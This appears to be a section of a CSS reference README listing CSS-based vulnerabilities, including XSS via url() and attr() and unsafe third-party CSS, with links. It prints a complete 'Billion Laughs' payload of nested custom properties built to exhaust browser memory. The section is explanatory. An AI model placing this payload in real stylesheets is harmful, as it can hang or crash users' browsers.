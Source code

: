 ## 1️⃣7️⃣ Vulnerabilities

- Billion Laughs Attack (https://drafts.csswg.org/css-variables/#long-variables)
- XSS through `url()` + `attr()`
- [Third party CSS is not safe](https://jakearchibald.com/2018/third-party-css-is-not-safe/)

```css
/* Billion Laughs Attack */
/* create a value in custom property so big that it runs out of memory */
:root {
  --v1: "lol";
  --v2: var(--v1) var(--v1) var(--v1) var(--v1) var(--v1) var(--v1) var(--v1) var(--v1) var(--v1) var(--v1);
  --v3: var(--v2) var(--v2) var(--v2) var(--v2) var(--v2) var(--v2) var(--v2) var(--v2) var(--v2) var(--v2);
  --v4: var(--v3) var(--v3) var(--v3) var(--v3) var(--v3) var(--v3) var(--v3) var(--v3) var(--v3) var(--v3);
  --v5: var(--v4) var(--v4) var(--v4) var(--v4) var(--v4) var(--v4) var(--v4) var(--v4) var(--v4) var(--v4);
  --v6: var(--v5) var(--v5) var(--v5) var(--v5) var(--v5) var(--v5) var(--v5) var(--v5) var(--v5) var(--v5);
  --v7: var(--v6) var(--v6) var(--v6) var(--v6) var(--v6) var(--v6) var(--v6) var(--v6) var(--v6) var(--v6);
  --v8: var(--v7) var(--v7) var(--v7) var(--v7) var(--v7) var(--v7) var(--v7) var(--v7) var(--v7) var(--v7);
  --v9: var(--v8) var(--v8) var(--v8) var(--v8) var(--v8) var(--v8) var(--v8) var(--v8) var(--v8) var(--v8);
  --v10: var(--v9) var(--v9) var(--v9) var(--v9) var(--v9) var(--v9) var(--v9) var(--v9) var(--v9) var(--v9);
}
```

